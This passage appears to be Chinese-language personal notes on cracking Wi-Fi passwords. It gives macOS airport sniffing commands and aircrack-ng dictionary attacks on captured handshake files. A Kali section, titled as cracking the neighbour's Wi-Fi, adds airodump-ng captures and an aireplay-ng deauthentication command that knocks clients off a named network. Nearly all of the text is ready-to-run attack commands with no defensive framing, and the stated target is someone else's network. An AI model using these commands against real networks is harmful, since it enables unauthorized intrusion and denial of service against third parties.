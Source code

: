 ```sh
# 查看附近wifi
airport -s

# 嗅探wifi，抓握手包
sudo airport en0 sniff 6
```

```sh
# 查看握手包
sudo aircrack-ng /tmp/air.....cap

# 通过字典破包
sudo aircrack-ng -w ./dict/FastPwds.txt -b E8:65:D4:73:10:B1 ./airport-sniff-602.cap
```

### 问题一：在MAC下，如何切换到root用户？

```sh
sudo -i
# 后输入密码即可
```

## 15 如何通过Kali破解隔壁WIFI

### 说明

- [1]中较为详细

- [2]中详细介绍了通过Parallels kali虚拟机+无线网卡来破解WIFI
- [3]中介绍了如何生成字典，以及用wireshark去分析抓到的包
- [4]中介绍了在M1机器上安装aircrack-ng，以及破解wifi的过程

### 获得技能

- 虚拟机的kali若需要wifi功能，则需要外置无线网卡来实现，不能利用宿主的wifi功能

- 可以通过aireplay-ng让其wifi不能联网

  ```sh
  aireplay-ng -0 -0 -a 54:E6:FC:30:54:DA  wlan0
  ```

### 一些命令

```sh
sudo su

# 嗅探网络
airodump-ng wlan0

# 嗅探网络包
airodump-ng -w sofia -c 11 wlan0

# 攻击
aireplay-ng -0 0 -a 54:E6:FC:30:54:DA  wlan0

# 查看包
aircrack-ng ./sofia-01.cap

# 跑包
aircrack-ng -w ./dict/FastPwds.txt -b E8:65:D4:73:10:B1 ./sofia-01.cap

```
